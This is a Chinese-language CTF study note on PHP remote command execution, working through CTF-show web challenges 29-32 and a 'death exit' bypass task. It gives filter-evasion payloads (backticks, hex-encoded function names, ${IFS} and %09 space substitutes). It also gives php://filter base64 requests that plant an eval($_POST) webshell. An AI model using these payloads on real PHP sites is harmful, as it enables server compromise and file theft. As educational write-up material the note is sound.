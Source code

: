 ```yaml
---
author: "Yiming Shen"
date: 2021-10-20
lastmod: 2021-10-22
title: "RCE 远程命令执行漏洞"
tags: [
    "CTF",
    "RCE",
    "Note",
]
categories: [
    "Notes",
     "CTF",
]
math: true
typora-root-url: ..\..\static\
---
```


本文以[CTF-show ](https://ctf.show/challenges#web30-392)Web入门29-41题作为例题，学习RCE相关知识。

## Web 29

过滤了flag字样

```php+HTML
?c=system("cat f*");
```

## Web 30

过滤了`flag|system|php`三个关键字，flag和php是待执行命令文本， 可以通过引号、斜杠或反斜杠绕过

```php
echo `cat f\lag.ph\p`;
```

**反引号可以执行系统命令**

## Web 31

在cat被禁时，我们还可以采用如下命令

> 1.tac：从最后一行开始显示，是cat的反向显示
> 2.more：一页一页的显示档案内容
> 3.less：与more类似
> 4.head：查看文档的前几行
> 5.tail：查看文档的后几行
> 6.nl：显示的时候，顺便输入行号
> 7.od：以二进制的方式读取档案内容
> 8.vi：一种编辑器
> 9.uniq：查看
> 10.vim：一种编译器

空格的代替符号：

> ```
> 1.${IFS}
> 2.$IFS$1
> 3.${IFS
> 4.%20
> 5.<和<>重定向符
> 6.%09
> ```

构造本题payload

``` php
?c=echo'more%09f*';
```

>其他题解：
>```php
>?c=eval($_GET[1]);&1=system('cat flag.php');嵌套脱离了c的正则判断
>?c=echo`strings%09f*`;
>?c="\x73\x79\x73\x74\x65\x6d"("nl%09fl[a]*");等价于system()。这个学到了！
>```

## Web 32

屏蔽了`echo`

分号可以用?>代替，括号可以用“”绕过，利用文件包含的方式查看flag.php，注意要先进行base64转码以绕过关键词过滤。

```php
?c=include"$_GET[1]"?>&1=php://filter/read=convert.base64-
encode/resource=flag.php
```

## 绕过死亡EXIT - CNSS 太极掌门人

```php
<?php
$filename=$_GET['filename'];
$content=$_GET['content'];
file_put_contents($filename,"<?php exit();".$content);
```

两个参数变量间用`exit()`方法隔开，即使注入一句话也无法执行，如何绕过这个“死亡exit”？

我们只需要将`content`前面部分内容使用某种手段(如编码)进行处理，导致PHP不能识别该部分即可。

### base64绕过

`base64`编码中只包含64个可打印字符，而PHP在解码`base64`时，遇到不在其中的字符时，将会跳过这些字符，仅将合法字符组成一个新的字符串进行解码。

```php
?filename=php://filter/convert.base64-decode/resource=1.php&content=aPD9waHAgZXZhbCgkX1BPU1RbYV0pOw==
```



### [😮Mid]太极掌门人


``` php
<?php
    error_reporting(0);
    show_source(__FILE__);

    function deleteDir($path) {

        if (is_dir($path)) {
            $dirs = scandir($path);
            foreach ($dirs as $dir) {
                if ($dir != '.' && $dir != '..') {
                    $sonDir = $path.'/'.$dir;
                    if (is_dir($sonDir)) {

                        deleteDir($sonDir);

                        @rmdir($sonDir);

                    } elseif ($sonDir !== './index.php'
                            && $sonDir !== './flag.php') {

                        @unlink($sonDir);

                    }
                }
            }
            @rmdir($path);
        }
    }

    $devil = '<?php exit;?>';

    $goods = $_POST['goods'];

    file_put_contents($_POST['train'], $devil . $goods);

    sleep(1);

    deleteDir('.');

?>
```

网页给出代码如上。

关键代码：`file_put_contents`写入文件，妥妥的文件上传漏洞。

``` php
?train=php://filter/convert.base64-decode/resource=1.php&goods=aPD9waHAgZXZhbCgkX1BPU1RbYV0pOw==
```

此时PHP执行的命令为：

```php
file_put_contents("php://filter/convert.base64-decode/resource=1.php", '<?php exit;?>'."aPD9waHAgZXZhbCgkX1BPU1RbYV0pOw==");
```

我们在PHP中运行一下，发现成功在目录下写入了有命令执行!

由于这是一个静态靶机，为了减轻服务器负担，故而有删除目录命令的存在，定时清空网站根目录，因此我们要在清空之前连入shell脚本，读取flag.php文件内容，拿到flag。

![image-20211021205217701](13.RCE专栏.assets/image-20211021205217701.png)

### 参考

[1] [详解PHP://filter以及死亡绕过](https://blog.csdn.net/woshilnp/article/details/117266628)

